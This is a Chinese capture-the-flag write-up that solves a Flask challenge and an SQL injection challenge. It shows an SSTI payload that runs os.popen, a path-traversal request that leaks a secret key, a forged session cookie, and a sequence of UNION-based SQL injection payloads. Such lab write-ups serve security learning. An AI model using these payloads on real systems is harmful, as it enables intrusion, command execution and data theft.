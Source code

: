 ```
if __name__ == "__main__": 
	app.run(host='0.0.0.0', debug=False) 
```

[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)

目前的session经过解密是：{‘n1code’: None}

针对源代码进行注入：

```
{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'} 
```

这个地方为什么注入这样的语句我没弄明白

3.利用脚本配合key.py构造session

获取key.py

```
?name=../../../../proc/self/cwd/key.py 
```

key = ‘Drmhze6EPcv0fN_81Bj-nA’

```
 python hctf_admin_2.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1cod
e': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"
得到：
.eJwdikEKgCAQAL8SXlYvQl2CviKxbGoRmCtZhxD_nnUbZqaI2Ft2XkyiFACNaAPljNjoOBnRDHPDfC-_961IZcb-k3vcr3_cAi8UWjLAGWadOPkowdLVrYE2nR5Q-vTkpKpV1BcrHygP.YIwlRQ.1bHGytWxAX498Sfx6r9JQtrwrSU 
```

将其保存到cookie中的session中即可，注意前面的点

## SQL注入-1

```
&tips=1 
```

得到提示：select * from notes where id =‘3’

payload：

```
1' order by 4 --+
1' order by 3 --+
-1' union select 1,2,3 --+
-1' union select 1,database(),3 --+
-1' union select 1,concat(table_name),3 from information_schema.tables where table_schema='note' --+
-1' union select 1,concat(column_name),3 from information_schema.columns where table_name='fl4g' --+
-1' union select 1,concat(fllllag),3 from note.fl4g --+ 
```
